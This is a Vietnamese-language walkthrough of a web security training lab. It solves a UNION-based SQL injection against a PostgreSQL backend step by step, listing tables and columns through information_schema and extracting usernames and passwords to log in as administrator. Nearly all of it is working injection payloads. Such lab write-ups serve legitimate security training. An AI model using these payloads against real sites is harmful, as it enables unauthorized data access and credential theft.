



# Lab: SQL injection attack, listing the database contents on non-Oracle databases

## Yêu cầu

Log in as the administrator user

## 1. Xác nhận tồn tại SQLi

So sánh response giữa 2 payload:

```text
/filter?category=Gifts'+and+1=2--   // không trả về kết quả
/filter?category=Gifts'+and+1=1--   // trả về kết quả bình thường
```

Kết luận: có tồn tại SQLi.

## 2. Kiểm tra số cột

```text
'+order+by+1--   // kết quả bình thường
'+order+by+2--   // kết quả bình thường
'+order+by+3--   // Internal Server Error
```

Kết luận: query có 2 cột.

## 3. Xác định type + DMBS

```text
'+union+select+null,null--          // seccess -> không phải Oracle DBMS
'+union+select+'a','a'--            // success -> 2 cột đều là string
'+union+select+version(),'a'--      // success -> PostgreSQL DBMS
```

## 4. Liệt kê các bảng

```text
'+union+select+null,table_name+FROM+information_schema.tables--
```



## 5. Liệt kê các cột của bảng `users_jjplbl`

```text
'+union+select+null,column_name+FROM+information_schema.columns+WHERE+table_name='users_jjplbl'--
```



Các cột cần quan tâm: `username_xzpycc`, `password_clzezq`.

## 6. Lấy username và password

```text
'+union+select+username_xzpycc,password_clzezq+FROM+users_jjplbl--
```



## 7. Kết luận

Lab solved. Dùng credentials của `administrator` từ kết quả trên để đăng nhập.
